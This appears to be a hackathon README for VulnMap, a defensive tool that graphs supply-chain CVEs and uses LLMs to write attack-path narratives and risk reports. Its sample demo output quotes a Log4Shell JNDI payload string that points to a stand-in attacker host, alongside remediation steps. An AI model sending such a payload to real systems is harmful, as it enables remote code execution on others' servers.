

# VulnMap  — Supply Chain Vulnerability Visualizer

> **"See your attack surface before attackers do."**

[](https://vulnmap.vercel.app)
[](https://vulnmap-server.up.render.app)
[](LICENSE)
[](/)

---

## 🧩 The Problem — Why This Exists

In 2020, **SolarWinds** was hacked. Not because of bad code the team wrote — but because of a **third-party package** that was compromised. 18,000 companies including the Pentagon were breached.

In 2021, **Log4Shell (CVE-2021-44228, CVSS 10.0)** — a single vulnerable Java logging library — became the most critical vulnerability in internet history. Every Fortune 500 company was exposed.

**Supply chain attacks are now the #1 attack vector** targeting enterprise software.

The problem is not that companies don't care — it's that **they can't see their risk**. A typical Node.js project has 800+ transitive dependencies. A Python microservice stack has hundreds more. Security teams have no way to visually understand which packages are dangerous, how they connect, and what an actual attack would look like.

**VulnMap solves this.** Upload your tech stack. In under 10 seconds, get a real-time interactive vulnerability graph — colored by severity — with an AI-simulated attack narrative explaining how an adversary would actually exploit your specific stack.

---

## 🎯 What VulnMap Does — Plain English

Think of your company's tech stack as a chain. Each link is a package your team uses — `lodash`, `express`, `axios`, `log4j`. 

**If one link is weak — the whole chain breaks.**

VulnMap:
1. **Takes your package list** — drag-and-drop your `package.json`, CycloneDX SBOM, SPDX JSON, or type manually.
2. **Fetches real CVE data** from NVD + OSV (free government vulnerability databases) in real-time.
3. **Builds an interactive graph** — red = critical vulnerability, yellow = medium, green = safe.
4. **Runs AI attack simulation** — powered by NVIDIA NIM (LLaMA 3 70B) with Groq fallback, it tells you *exactly* how an attacker would chain your vulnerabilities.
5. **Generates a PDF risk report** — board-ready, CISO-level security brief.

---

## 🏗️ Architecture



---

## ⚡ Multi-Model AI Orchestration & Fallback

VulnMap implements a **production-grade AI fallback chain**:

```
Request
   │
   ▼
NVIDIA NIM ──► meta/llama3-70b-instruct (Primary)
   │ (if fails / rate-limits)
   ▼
Groq API ──► llama3-70b-8192 (Fallback — free, 500 tok/s)
   │ (if both fail)
   ▼
Context-Aware Offline Generator ──► Custom Mock Graph Exploit Simulator (Never crashes)
```

This guarantees **100% scanning runtime reliability** under all API conditions.

---

## 🎨 Premium Visual Enhancements

VulnMap features an ultra-premium **Cyberpunk Black & Orange** aesthetic, locking down all page components to a sleek, modern visual interface:

1. **Brand Theme Locking**: Locked completely to `#05070B` (cyberpunk black) and `#FF6B00` (neon orange accents) across primary buttons, highlights, badges, and interfaces.
2. **Infinite Marquee SVG Scroller**: A continuous, seamless horizontal marquee looping custom, high-fidelity SVGs representing top tech brands (`OneDrive`, `Dropbox`, `MEGA`, `Box`, `PayPal`, `Walmart`, `Tencent`). Logos render in 100% white, full-opacity with dynamic hover glowing effects and rotation animation.
3. **Live Threat Simulator Terminal**: An active self-typing CLI terminal console (`TerminalDemo`) displaying simulated CycloneDX SBOM ingestion, threat containment alerts, transitive vulnerability scans, and AI attack paths in real-time.
4. **Scroll-triggered Opacity Reveal**: The core value statement features a customized viewport scroll engine splitting sentences word-by-word, fading in word-by-word from `0.15` to `1.0` opacity.
5. **High-Contrast Digital Fingerprint Canvas**: Features a highly visible digital security canvas rendering perfectly in both dark and modern configurations without visual overlaps.

---

## 🔥 The "Wow" Demo Flow — What Judges Will See

1. Judge opens the app → **Sleek Cyberpunk Threat Terminal & Infinite Marquee** loop immediately.
2. Clicks **"GET A DEMO"** → pre-loaded `package.json` with `lodash@4.17.4`, `log4j@2.14.1`, `axios@0.21.0` etc.
3. Clicks **"Analyze Vulnerabilities"**
4. **~5 seconds later** → force-directed graph appears:
   - `log4j` → giant pulsing **red node** (CVE-2021-44228, CVSS 10.0)
   - `minimist` → red node (prototype pollution)
   - `marked@0.8.0` → red node (XSS)
   - `react@16` → green (safe)
5. Judge clicks the `log4j` red node → **side panel slides in**:
   ```
   CVE-2021-44228 · CVSS 10.0 · CRITICAL
   Log4Shell — Remote Code Execution via JNDI injection
   ```
6. Judge clicks **"Simulate Attack Path"** → NVIDIA NIM generates:
   ```
   ATTACK PATH:
   An attacker sends a crafted HTTP header containing 
   ${jndi:ldap://attacker.com/exploit}. The log4j library 
   processes this during request logging, triggering an 
   outbound LDAP connection to the attacker's server...
   
   REMEDIATION:
   • Upgrade log4j-core to ≥ 2.17.1 immediately
   • Set log4j2.formatMsgNoLookups=true as interim fix
   • Audit all HTTP input points for JNDI injection vectors
   ```
7. Judge clicks **"Export PDF Report"** → professional risk brief downloads instantly.

---

## 💡 Innovation Highlights

| Feature | How it's novel |
|---------|---------------|
| **Multi-model AI orchestration** | NVIDIA NIM → Groq fallback chain with custom offline generators. Zero-cost enterprise AI at scale. |
| **Real CVE data, not mock data** | Hits live NVD + OSV APIs. MongoDB caching with 24h TTL. Actual CVSS scores. |
| **Multi-Format Ingestion Engine** | Supports drag-and-drop parsing for npm `package.json`, CycloneDX SBOMs (JSON), and SPDX SBOM JSON structures. |
| **D3 force simulation** | Charge-based repulsion, collision detection, drag physics — not a static chart. |
| **Trust Depth scoring** | Risk score = CVE severity × position in dependency chain. Deeper = more dangerous. |
| **Sub-10s full scan** | Parallel CVE fetching + MongoDB cache = median 4-6s for 15 packages. |

---

## 🧠 Hackathon Pitch & Idea Breakdown

> *"Apni company ka sabse kamzor link — 30 second mein dhundh lo"*

**Core Problem:** Companies breach hoti hain apne vendor ke through — ek compromised open-source package se. Security teams ke paas koi unified view nahi hota ki dependencies kahan connect ho rahi hain aur weakest link kaunsa hai.

**Unique Angle (Secret Weapon):** Real CVE fetching + AI "Attack Path Simulator" jo judge ko saamne live dikhayega: *"Agar yeh npm package compromise ho jaye to attacker tumhare AWS S3 bucket tak 3 hops mein pahunch sakta hai"*. Yeh abhi tak kisi ne nahi banaya.

**Wow Moment (Demo):** JSON/SBOM file upload karo → 5 second mein interactive dependency graph appear hoga — red nodes (CVE wale), yellow (medium risk), green (safe). Ek red node pe click karo → right panel mein CVE details, exploit history, AI generated attack story. Ek recommendation. *Judge bolega: No-playing.*

**Psychological Hook:** Boardroom logic 🤝 D3.js. Har judge chahta hai yeh attack live hote huye dekhna. Tu live chize dekhayega ki unki khud ki company ka tech stack kitna unsafe hai — aur humara brand "Dfx" unhe bacha lega.

**What Others Won't Build:** Sirf ek static table banayenge CVE list ke sath. Tu banayega:
1. Interactive D3.js force graph
2. Trust chain depth visualization (kitne layers deep hai vulnerability)
3. AI attack path narrative
4. Exportable risk report PDF. Yeh combination koi nahi banayega.

**AI Usage (Real):**
1. **Attack path generation:** Given a vulnerable node, AI explains how realistic breach spread.
2. **Executive summary:** Non-technical CTO ke liye 2-3 line plain English report.

**Scalability:**
- **Phase 1:** Manual JSON/SBOM upload.
- **Phase 2:** GitHub repo direct connect (auto-scan packages on PR/commits).
- **Phase 3:** CI/CD pipeline integration.
- **Phase 4:** Real-time monitoring with Slack alerts.

---

## 🛠️ MERN Tech Split

* **MongoDB Atlas:** Collections: `scans` (input, graph), `vulnerabilities` (CVE cache for NVD/OSV), `reports` (generated PDF paths/scan info).
* **Express.js:** Routes: `POST /api/scan` (Parse JSON/fetch CVEs, build graph), `GET /api/scan/:id`, `POST /api/ai/attack-path` (AI call), `POST /api/report`.
* **React 18:** Pages: Landing → Input (manual entry + JSON upload) → Graph View (main demo page, D3.js force graph) → Node Detail Panel (slide in) → Export Report. React Query for state.
* **Node.js:** `axios` (NVD API), `pdfkit` (report), `multer` (JSON upload), `node-cache` (CVE responses cache to avoid NVD rate limit), `helmet`.
* **D3.js (Frontend):** Force-directed graph. Node color = risk level (red/yellow/green). Node size = trust chain depth (deeper = bigger). Edge thickness = dependency strength. Click on node → detail panel open. Drag nodes, zoom, pan → full interactive.
* **CVE APIs (Free):** NVD API and OSV.dev (free, no key needed for basic). OSV.dev API is very fast, covers npm/PyPI/etc. Fetch CVEs by package name + version. Cache responses in MongoDB to avoid rate limits.
* **AI API:** Input context (package name + CVE list + dependencies). Output plain English chain path (*"If lodash 4.17.4 is exploited, attacker can access your Express session middleware, then reach your MongoDB credentials via env leakage"*). JSON narrative.
* **Deploy:** Backend → Railway. Frontend → Vercel. DB → MongoDB Atlas free tier. NVD + OSV → free public APIs. Total cost: $0.

---

## 📊 Evaluation Criteria Alignment

### 🔬 Engineering Rigor & Render Resilience
- **MERN stack** with full separation of concerns (routes → services → models).
- **Mongoose schema** with TTL-indexed CVE cache (auto-expires stale data).
- **Helmet.js** HTTP security headers + **express-rate-limit** (100 req/15min) on all API routes.
- **Error boundary** — every AI call has try/catch with graceful degradation.
- **Async parallel CVE fetching** via `Promise.all` across all packages.
- **Input validation** on file uploads — only `.json` accepted, max 5MB body limit.
- **Render Production Ready**: Configured `trust proxy` for secure reverse routing and non-blocking database connections allowing instantaneous health check startup.

### 🎨 UI / UX
- Premium dark cybersecurity aesthetic (DFX-inspired).
- **Space Mono** monospace font for technical credibility.
- **Neon Orange (#FF6B00)** brand color — instantly recognizable security tool feel.
- Animated D3 force graph with hover states, click events, drag physics.
- Slide-in `NodeDetailPanel` with CVE list, risk badge, attack path, remediation.
- Responsive layout — works on all screen sizes.

### 🌍 Impact
- **Target users:** Security engineers, CISOs, DevSecOps teams at startups and mid-market companies.
- **Real-world validity:** Uses the same databases (NVD, OSV) that tools like Snyk and GitHub Dependabot use — but with visual attack simulation added.
- **Enterprise workflow compatible:** Accepts standard SBOM and package.json formats — zero workflow change required.
- **Replaces** $15,000/yr Snyk enterprise licenses for basic vulnerability scanning.

### 💰 Business Model

```
FREE TIER (Hook)
└── 5 scans/month, up to 10 packages, basic graph
    └── Goal: Get developers in the door

PRO — $49/month per seat
└── Unlimited scans, up to 500 packages, AI attack paths
    └── Target: Individual security engineers

TEAM — $299/month (up to 20 seats)
└── CI/CD integration (GitHub Actions), Slack alerts, scan history
    └── Target: DevSecOps teams

ENTERPRISE — Custom pricing
└── SSO, SOC2 compliance reports, private hosting, SBOM ingestion pipeline
    └── Target: Fortune 1000 (>$50K ACV)
```

**TAM:** $15B (Application Security Testing market, growing 25% YoY)  
**Comparable exits:** Snyk acquired at $8.5B. Sonatype raised $120M. Veracode sold for $2.5B.

**Path to revenue:**
- Month 1-3: Freemium launch, target developer communities (HN, Reddit r/netsec)
- Month 4-6: Pro tier, target YC-backed startups with compliance requirements
- Month 7-12: Enterprise pilots, SOC2/ISO27001 report integrations

---

## 🚀 Tech Stack

| Layer | Technology |
|-------|-----------|
| Frontend | React 18, React Router v6, D3.js v7, Tailwind CSS v4 |
| Backend | Node.js, Express.js, Helmet, express-rate-limit |
| Database | MongoDB Atlas + Mongoose |
| CVE Data | NVD REST API 2.0 + OSV.dev API (both free, no auth) |
| AI (Primary) | NVIDIA NIM — meta/llama3-70b-instruct |
| AI (Fallback) | Groq API — llama3-70b-8192 (free tier, 500 tok/s) |
| PDF | pdfkit |
| File Upload | multer |
| Deployment | Vercel (frontend) + Railway (backend) |

---

## 🏃 Run Locally in 2 Minutes

```bash
# Clone
git clone https://github.com/mohit4901/commit_happens_mohit0011.git
cd commit_happens_mohit0011

# Backend
cd server
cp ../.env.example .env
# Fill in MONGO_URI, NVIDIA_NIM_API_KEY, GROQ_API_KEY
npm install
npm run dev        # → http://localhost:5001

# Frontend (new terminal)
cd client
echo "VITE_API_URL=http://localhost:5001" > .env
npm install
npm run dev        # → http://localhost:5173
```

**Required env vars:**
```env
MONGO_URI=your_mongodb_atlas_uri
NVIDIA_NIM_API_KEY=nvapi-xxxx          # https://build.nvidia.com
GROQ_API_KEY=gsk_xxxx                  # https://console.groq.com (free)
PORT=5001
CLIENT_URL=http://localhost:5173
```

---

## 📁 Project Structure

```
vulnmap-repo/
├── client/                    # React frontend
│   ├── src/
│   │   ├── pages/
│   │   │   ├── Landing.jsx    # DFX-style homepage
│   │   │   ├── InputPage.jsx  # Package input + file upload
│   │   │   ├── GraphView.jsx  # D3 graph dashboard
│   │   │   └── ExportReport.jsx
│   │   ├── components/
│   │   │   ├── ForceGraph.jsx     # D3 force simulation
│   │   │   ├── NodeDetailPanel.jsx # Slide-in CVE details
│   │   │   └── RiskBadge.jsx
│   │   └── context/
│   │       └── ScanContext.jsx    # Global state
│   └── vite.config.js
│
├── server/                    # Express backend
│   ├── routes/
│   │   ├── scan.js            # POST /api/scan
│   │   ├── aiAttack.js        # POST /api/ai/attack
│   │   └── report.js          # POST /api/report
│   ├── services/
│   │   ├── cveService.js      # NVD + OSV fetching + caching
│   │   ├── graphService.js    # Dependency graph builder
│   │   ├── riskService.js     # Risk score algorithm
│   │   ├── aiService.js       # NVIDIA NIM → Groq orchestration
│   │   └── pdfService.js      # PDF report generator
│   └── models/
│       ├── Scan.js            # Mongoose scan schema
│       └── CveCache.js        # TTL-indexed CVE cache
│
└── demo/
    └── sample-stack.json      # Real vulnerable package.json for demo
```

---

## 🔐 Security Hardening (Production-Ready)

- `helmet()` — sets 11 security-critical HTTP headers (CSP, HSTS, X-Frame-Options, etc.).
- Rate limiting — 100 req/15min per IP on all `/api/*` routes.
- File upload validation — only `.json`, max 5MB, memory storage (no disk write).
- Environment variables — no secrets in code, `.env` in `.gitignore`.
- MongoDB TTL index — CVE cache auto-expires after 24h, always fresh data.
- Error boundaries — AI failures never crash the scan, always graceful fallback.

---

## 📜 Real-World CVE Examples in Demo

| Package | CVE | CVSS | What happens |
|---------|-----|------|-------------|
| `log4j-core@2.14.1` | CVE-2021-44228 | **10.0** | Log4Shell — remote code execution via JNDI |
| `lodash@4.17.4` | CVE-2021-23337 | 7.2 | Command injection via template |
| `minimist@1.2.0` | CVE-2021-44906 | 9.8 | Prototype pollution |
| `axios@0.21.0` | CVE-2021-3749 | 7.5 | SSRF via redirect |
| `marked@0.8.0` | CVE-2022-21681 | 7.5 | ReDoS + XSS |

---

*Built for Commit Happens Hackathon — "Because vulnerabilities don't wait for your sprint cycle."*

> **One engineer. One weekend. A tool that replaces $15K/yr Snyk licenses.**
